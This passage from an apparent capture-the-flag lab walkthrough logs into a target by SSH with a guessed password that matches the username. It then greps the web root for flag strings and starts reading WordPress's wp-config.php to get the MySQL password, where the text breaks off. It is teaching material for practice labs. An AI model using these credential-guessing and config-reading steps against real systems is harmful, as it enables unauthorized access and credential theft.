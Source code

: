    These two usernames can be used to gain a user shell.

4. Use SSH to gain a user shell. Two flags can be discovered at this step.

    - **Hint**: Guess `michael`'s password. What's the most obvious possible guess?

    ```bash
    # Log in as michael
    $ ssh michael@192.168.1.110
    Enter password: michael
    # Move to the website root directory to find flag2
    michael@target1:~$ cd /var/www
    michael@target1:/var/www$ ls
    flag2.txt
    michael@target1:/var/www$ cat flag2.txt
    flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    # Search for the word `flag` in all html files to find flag1
    michael@target1:/var/www$ grep -RE flag html
    # Prints very long output -- but, the very last line contains flag1!
    ./vendor/examples/scripts/XRegExp.js:	RegExp.prototype.validate = function (s) {var r = RegExp("^(?:" + this.source + ")$(?!\\s)", getNativeFlags(this)); if (this.global) this.lastIndex = 0; return s.search(r) === 0;};
    ./vendor/composer.lock:	"stability-flags": [],
    ./service.html:             	<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->

    # Alternatively, search for the flag directly
    michael@target1:/var/www$ grep -REioh flag[[:digit:]]{.+} html
    flag1{b9bbcb33e11b80be759c4e844862482d}
    ```

5. Find the MySQL database password.

     - **Hint**: Look for a `wp-config.php` file in `/var/www/html`.

    ```bash
    # Search for database configuration files
    michael@target1:~$ cat /var/www/html/wordpress/wp-config.php
    # Extra code omitted...
    /** The name of the database for WordPress */
    define('DB_NAME', 'wordpress')
